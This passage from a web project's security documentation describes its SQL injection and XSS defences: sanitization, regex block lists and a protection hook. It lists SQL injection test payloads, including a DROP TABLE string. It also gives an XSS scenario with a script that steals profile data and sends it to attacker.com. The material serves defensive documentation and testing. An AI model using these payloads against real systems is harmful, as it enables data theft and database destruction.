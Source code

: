 ```
With protection: Attack blocked, no data exposed, security team notified
```

**Potential Impact**: 
- Unauthorized access to user data (bypassing login)
- Database corruption or deletion (DROP TABLE commands)
- Privilege escalation (accessing admin accounts)
- Data breach and privacy violations (extracting sensitive information)

**How Protection Works in This Project**:

The project implements multi-layered SQL injection protection through the `SQLProtectionWrapper` component and validation utilities:

1. **Input Sanitization** (`src/utils/security/sqlProtection/sanitization.js`):
   - Removes dangerous SQL keywords: SELECT, UNION, DROP, INSERT, UPDATE, DELETE
   - Filters special characters: quotes, semicolons, comment markers
   - Example: `admin' OR '1'='1'` becomes `admin OR 1=1` (safer but still blocked)

2. **Pattern Detection** (`src/utils/security/sqlProtection/validation.js`):
   - Detects SQL injection patterns using regex
   - Blocks queries containing: `OR 1=1`, `UNION SELECT`, `--`, `;`
   - Returns validation errors for suspicious input

3. **Component Integration** (`src/components/SQLProtectionWrapper/`):
   - Wraps form inputs with automatic SQL injection detection
   - Real-time validation as users type
   - Prevents form submission with malicious input

4. **Hook Usage** (`src/hooks/useSQLProtection.js`):
   - Provides easy integration for components
   - Returns validation state and sanitized input
   - Logs attempted SQL injection attacks

**Testing Procedures**:
1. Attempt to inject SQL commands in login forms: `admin' OR '1'='1' --`
2. Test with malicious input in search fields: `'; DROP TABLE users; --`
3. Try to bypass validation with encoded characters: `admin%27%20OR%20%271%27%3D%271%27`
4. Test with various SQL injection payloads in different input fields

**Files**: `src/utils/security/sqlProtection/`, `src/components/SQLProtectionWrapper/`, `src/hooks/useSQLProtection.js`

### Cross-Site Scripting (XSS) Protection

**Threat Description**: XSS attacks inject malicious scripts into web pages, which execute in users' browsers and can steal sensitive information or perform unauthorized actions.

**Attack Scenario - Step by Step**:

**Scenario 1: Session Hijacking Attack**
```
Step 1: Attacker identifies user input field
- Attacker visits product review section
- Finds comment/description field where users can input text
- Analyzes how user input is displayed on the page

Step 2: Attacker crafts malicious XSS payload
- Input: <script>fetch('/api/user/profile', {credentials: 'include'}).then(r=>r.json()).then(d=>fetch('http://attacker.com/steal', {method:'POST', body:JSON.stringify(d)}))</script>
- This script steals user profile data and sends it to attacker's server

Step 3: Without protection - what happens:
- Malicious script is stored in database
- When admin views the review, script executes in admin's browser
- Script makes authenticated request to /api/user/profile
- User data is stolen and sent to attacker.com
- Attacker receives: {"name": "Admin User", "email": "admin@fixerupper.com", "role": "admin"}
```